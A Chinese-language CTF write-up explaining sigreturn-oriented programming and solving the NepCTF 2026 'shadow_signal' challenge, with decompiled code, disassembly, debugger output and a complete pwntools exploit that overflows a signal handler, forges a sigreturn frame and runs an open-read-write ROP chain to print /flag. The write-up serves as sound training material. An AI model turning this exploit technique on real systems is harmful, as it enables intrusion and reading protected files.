




# 写在前面

感觉最近一堆事情要做，所以kernel的学习不得不暂缓一下

还有比例鸡埃及加油好吗，我的大学四年能来一次lpl夺冠吗

#  内容讲解



>1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
>2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
>3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。



注意到用户栈前后是没有检查的

也就是说，在某次发送signal时，我们可以通过对栈动手，再执行sigreturn时他读取的是我们恶意设置的栈，那就可以很好操作他了



要设的就是这些



# nepctf-2026-shadow_signal

[NepCTF 2026 - 西电 CTF 终端](https://ctf.xidian.edu.cn/training/38?challenge=1407)

先pwninit一下

然后checksec

```bash
(base) dxfaker@LAPTOP-US9FCLPD:/mnt/d/ctf/flag/pwn/nepctf/shadow$ checksec shadow_signal_patched
[*] '/mnt/d/ctf/flag/pwn/nepctf/shadow/shadow_signal_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

可以看到没有pie

```c
{
  const char *buf; // [rsp+8h] [rbp-8h] BYREF

  buf = 0;
  init();
  printf("gift: %p\n", stdout);
  read(0, &buf, 8u);
  puts(buf);
  return 0;
}
```

可以算libc基址了

```c
int init()
{
  __int64 v0; // rdx
  __int64 v1; // rcx
  __int64 v2; // r8
  __int64 v3; // r9
  struct sigaction act; // [rsp+0h] [rbp-A0h] BYREF

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  act.sa_handler = (__sighandler_t)handler;
  sigemptyset(&act.sa_mask);
  act.sa_flags = 0x80000000;
  if ( sigaction(11, &act, 0) )
    die("sigaction failed\n");
  protect_bss();
  return install_seccomp(11, (__int64)&act, v0, v1, v2, v3);
}
```

有沙箱还有bss保护

```c
__int64 handler()
{
  __int64 result; // rax
  _BYTE buf[256]; // [rsp+10h] [rbp-110h] BYREF
  __int64 *v2; // [rsp+110h] [rbp-10h]
  __int64 *v3; // [rsp+118h] [rbp-8h]
  __int64 savedregs; // [rsp+120h] [rbp+0h] BYREF
  void *retaddr; // [rsp+128h] [rbp+8h]

  v2 = &savedregs;
  shadow_saved_rip = (__int64)retaddr;
  write(1, "signal\n", 7u);
  read(0, buf, 0x500u);
  v3 = &savedregs;
  result = shadow_saved_rip;
  if ( retaddr != (void *)shadow_saved_rip )
  {
    write(1, "shadow stack broken\n", 0x14u);
    _exit(1);
  }
  return result;
}
```

影栈的软件实现

而且我们的溢出点也出现了

可以看到有0x500 - 256的栈空间给我们操作

看一眼vmmap有什么可以给我们操作的

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x3fe000           0x3ff000 rw-p     1000       0 shadow_signal_patched
          0x400000           0x401000 r--p     1000    2000 shadow_signal_patched
          0x401000           0x402000 r-xp     1000    3000 shadow_signal_patched
          0x402000           0x403000 r--p     1000    4000 shadow_signal_patched
          0x403000           0x404000 r--p     1000    4000 shadow_signal_patched
          0x404000           0x405000 rw-p     1000    5000 shadow_signal_patched
          0x405000           0x408000 rw-p     3000       0 [heap]
    0x7ffff7d8f000     0x7ffff7d92000 rw-p     3000       0 [anon_7ffff7d8f]
    0x7ffff7d92000     0x7ffff7dba000 r--p    28000       0 libc.so.6
    0x7ffff7dba000     0x7ffff7f4f000 r-xp   195000   28000 libc.so.6
    0x7ffff7f4f000     0x7ffff7fa7000 r--p    58000  1bd000 libc.so.6
    0x7ffff7fa7000     0x7ffff7fa8000 ---p     1000  215000 libc.so.6
    0x7ffff7fa8000     0x7ffff7fac000 r--p     4000  215000 libc.so.6
    0x7ffff7fac000     0x7ffff7fae000 rw-p     2000  219000 libc.so.6
    0x7ffff7fae000     0x7ffff7fbd000 rw-p     f000       0 [anon_7ffff7fae]
    0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000       0 [vvar]
    0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000       0 [vdso]
    0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000       0 ld-linux-x86-64.so.2
    0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000    2000 ld-linux-x86-64.so.2
    0x7ffff7fef000     0x7ffff7ffa000 r--p     b000   2c000 ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000   37000 ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000   39000 ld-linux-x86-64.so.2
    0x7ffffffdd000     0x7ffffffff000 rw-p    22000       0 [stack]
pwndbg>
```

我是看到heap 上rw-p可以操作了

主要是SROP的触发得是有一个信号，在这个题能够触发的信号也就是main阶段正常发送数据之后让他SIGSEGV

所以我们在本地动调的时候需要加一个这个

```bash
handle SIGSEGV nostop noprint pass
```

那在他发送完signal之后就可以看到

程序在等待你的输入，然后进行攻击即可

由于沙箱的限制所以在进行第一轮SROP之后接着进行ORW

我当时甚至想过设置两段SROP

但是呢，这个第二阶段进行简单ROP就好，只要第一轮的校验过了的话

```c
retaddr != (void *)shadow_saved_rip 
```

```assembly
.text:00000000004014DF handler         proc near               ; DATA XREF: init+69↓o
.text:00000000004014DF
.text:00000000004014DF var_114         = dword ptr -114h
.text:00000000004014DF buf             = byte ptr -110h
.text:00000000004014DF var_10          = qword ptr -10h
.text:00000000004014DF var_8           = qword ptr -8
.text:00000000004014DF
.text:00000000004014DF ; __unwind {
.text:00000000004014DF                 endbr64
.text:00000000004014E3                 push    rbp
.text:00000000004014E4                 mov     rbp, rsp
.text:00000000004014E7                 sub     rsp, 120h
.text:00000000004014EE                 mov     [rbp+var_114], edi
.text:00000000004014F4                 mov     rax, rbp
.text:00000000004014F7                 mov     [rbp+var_10], rax
.text:00000000004014FB                 mov     rax, [rbp+var_10]
.text:00000000004014FF                 mov     rax, [rax+8]
.text:0000000000401503                 mov     cs:shadow_saved_rip, rax
.text:000000000040150A                 mov     edx, 7          ; n
.text:000000000040150F                 lea     rax, aSignal    ; "signal\n"
.text:0000000000401516                 mov     rsi, rax        ; buf
.text:0000000000401519                 mov     edi, 1          ; fd
.text:000000000040151E                 call    _write
.text:0000000000401523                 lea     rax, [rbp+buf]
.text:000000000040152A                 mov     edx, 500h       ; nbytes
.text:000000000040152F                 mov     rsi, rax        ; buf
.text:0000000000401532                 mov     edi, 0          ; fd
.text:0000000000401537                 call    _read
.text:000000000040153C                 mov     rax, rbp
.text:000000000040153F                 mov     [rbp+var_8], rax
.text:0000000000401543                 mov     rax, [rbp+var_8]
.text:0000000000401547                 mov     rdx, [rax+8]
.text:000000000040154B                 mov     rax, cs:shadow_saved_rip
.text:0000000000401552                 cmp     rdx, rax
.text:0000000000401555                 jz      short loc_40157A
.text:0000000000401557                 mov     edx, 14h        ; n
.text:000000000040155C                 lea     rax, aShadowStackBro ; "shadow stack broken\n"
.text:0000000000401563                 mov     rsi, rax        ; buf
.text:0000000000401566                 mov     edi, 1          ; fd
```

可以看出rdx在校验前的值是rbp + 8, rax的值是shadow_saved_rip

```c
  void *retaddr; // [rsp+128h] [rbp+8h]
```

也就是说这俩都得是返回地址

那么返回地址最后要去哪？

也就是我们的rt_sigreturn，经过这一步进行栈读取

不过第一轮都已经把libc基址给你了，直接libc.so.6去读取就好

syscall用的是read内部的

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
context.terminal = ['cmd.exe', '/c', 'start', 'wsl.exe', 'bash', '-c']

libc = ELF('./libc.so.6')
#p = process('./shadow_signal_patched')
p = remote('127.0.0.1', 58725)

stdout_plt = libc.sym.stdout
p.recvuntil(b'gift: ')
# gdb.attach(p)
gift = int(p.recvline().strip(),16)
libc.address = gift - 0x21b780     # = 0x74e165be0000
rt_restore   = libc.address + 0x42520
p.sendline(b'faq')

pop_rdi_ret = libc.address + 0x2a3e5
pop_rsi_ret = libc.address + 0x2be51
pop_rdx_ret = libc.address + 0x11f367 

#0x0000000000045eb0 : pop rax ; ret
#0x000000000002a3e5 : pop rdi ; ret
#0x000000000002be51 : pop rsi ; ret
#0x000000000011f367 : pop rdx ; pop r12 ; ret
#四次，分别为r o r w
#由于heap段没有保护，所以可以很舒服的写入
# 0000000000114850 <__read>:
  # 114850: f3 0f 1e fa    endbr64
  # ...
  # 114860: 0f 05          syscall
  # 114862: 48 3d 00 f0 ff ff  cmp $0xfffffffffffff000,%rax
  # 114868: 77 56          ja 1148c0 <__read+0x70>
  # 11486a: c3             ret
 
pop_rax_ret = libc.address + 0x45eb0
syscall_ret = libc.address + 0x114860
print(hex(syscall_ret))

def trigger(frame):
    return p64(pop_rax_ret) + p64(15) + p64(syscall_ret) + bytes(frame)
    
heap = 0x405000 + 0x100
offset = 0x118
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = heap
frame.rdx = 0x400
frame.rsp = heap
frame.rip = syscall_ret

chain1 =  b'A' * offset + p64(rt_restore) 
chain1 = chain1.ljust(0x120, b'B')
chain1 += bytes(frame)
chain1 = chain1.ljust(0x500, b'\0')

p.recvuntil(b'signal\n')
p.send(chain1)
# frame2 = SigreturnFrame()
# frame2.rax = 2
# frame2.rdi = heap
# frame2.rsi = 0
# frame2.rdx = 0
# frame2.rsp = 0
# frame2.rip = syscall_ret

# frame3 = SigreturnFrame()
# frame3.rax = 0
# frame3.rdi = fd
# frame3.rsi = heap
# frame3.rdx = 0x200
# frame3.rsp = 0x200
# frame3.rip = syscall_ret

# frame4 = SigreturnFrame()
# frame4.rax = 1
# frame4.rdi = 1
# frame4.rsi = buf_addr
# frame4.rdx = 0x200
# frame4.rip = syscall_ret

# chain2 = flat([
            # rax,
            # 15,
            # syscall,
            # frame2,
            # frame3,
            # frame4,
# ])
FLAG_ADDR = heap + 0x300
chain = flat([
    # open
    pop_rdi_ret, FLAG_ADDR,
    pop_rsi_ret, 0,
    pop_rdx_ret, 0, 0,
    pop_rax_ret, 2,
    syscall_ret,
    # open 返回 fd 在 rax，这里需要 mov rdi, rax 或赌 fd=3
    pop_rdi_ret, 3,          # 赌 fd=3
    pop_rsi_ret, heap + 0x200,
    pop_rdx_ret, 0x100, 0,
    pop_rax_ret, 0,
    syscall_ret,
    # write
    pop_rdi_ret, 1,
    pop_rsi_ret, heap + 0x200,
    pop_rdx_ret, 0x100, 0,
    pop_rax_ret, 1,
    syscall_ret,
])
chain  = chain.ljust(0x300, b'\0')
chain += b'/flag\0'    
chain  = chain.ljust(0x400, b'\0')
p.send(chain)

p.interactive()

```


